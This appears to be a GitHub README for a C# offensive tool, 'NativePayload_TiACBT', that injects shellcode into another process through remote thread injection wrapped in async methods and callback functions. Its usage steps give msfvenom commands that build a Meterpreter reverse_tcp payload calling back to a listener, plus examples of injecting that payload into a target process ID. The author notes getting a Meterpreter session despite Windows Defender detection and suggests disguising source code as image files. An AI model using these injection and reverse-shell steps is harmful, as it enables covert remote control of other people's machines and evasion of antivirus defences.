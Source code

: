 # NativePayload_TiACBT
NativePayload_TiACBT  (Remote Thread Injection + C# Async Method + CallBack Functions Technique)
-------------
Note: These C# Codes Tested by .Net Framework 3.5 or 4.0 & 4.5 only ;) & i will Publish Article for these codes soon , in these code we have Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique CBT, in these Codes We have "CreateRemoteThread or NtCreateThreadEx" BUT the goal is Changing Code Behavior for Calling API Functions (Remote Thread Injection only), as you can see in these Pictures With API Monitor tool you can see what happened step by step. 

as you can see in the Picture3, Code Behavior Detected by Windows Defender(update 2020/12/20) because of Payload for meterpreter BUT i had meterpreter Session  ¯\_(ツ)_/¯

-------------------------

Article: Remote Thread Injection + C# Async Method + CallBack Functions Technique (Changing Code Behavior) => https://damonmohammadbagher.github.io/Posts/05may2021x.html

--------------------------------------------
C# Codes:  
```diff
+    1. NativePayload_TiACBT.cs
+    2. NativePayload_TiACBT2.cs
```
you can upload your Code like "image/gif/png/jpeg" files instead "text" file, sometimes this is good idea to avoid using files directly as source code ;D , but still you need to upload source code with zip formats etc (with/without random pwd for each download) ;)

```diff
+    1. NativePayload_TiACBT.png
+    2. NativePayload_TiACBT2.png
```
--------------------------------------------

1. NativePayload_TiACBT.cs (Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique via EnumUILanguagesA + EnumSystemLocalesA Native APIs)

 Note: NativePayload_TiACBT will call APIs: OpenProcess,VirtualAllocEx,WriteProcessMemory,CreateRemoteThread (all methods called via Async C# Method + Callback Functions ...)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_TiACBT.exe [mode 1,2] [TPID] [PAYLOAD]
    example: NativePayload_TiACBT.exe 1 5930 "fc,48,00,87,00,...."
    example: NativePayload_TiACBT.exe 2 5930 "fc,48,00,87,00,...."
    

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/NativePayload_TiACBT.png)

 -----------------------------------------------------------    
2. NativePayload_TiACBT2.cs (Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique via EnumUILanguagesA Native API)

 Note: NativePayload_TiACBT2 will call APIs: OpenProcess,VirtualAllocEx,WriteProcessMemory,NtCreateThreadEx
 
 Note: in this code Method1 (OpenProcess) will call Method2 (VirtualAllocEx) & Method2 Will Call Method3 (WriteProcessMemory) & Method3 Will call Method4 (NtCreateThreadEx) and all methods called via Async C# Method + Callback Functions ...

 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_TiACBT2.exe   [TPID] [PAYLOAD]
    example: NativePayload_TiACBT2.exe  4386 "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/NativePayload_TiACBT2.png)

 --------------------------------------------    
 Note: as you can see in the Picture, Code Behavior Detected by Windows Defender(update 2020/12/20) because of Payload for meterpreter BUT i had meterpreter Session  ¯\_(ツ)_/¯

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/AV.png)

 --------------------------------------------    
 <p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FDamonMohammadbgher%2FNativePayload_TiACBT"/></a></p>
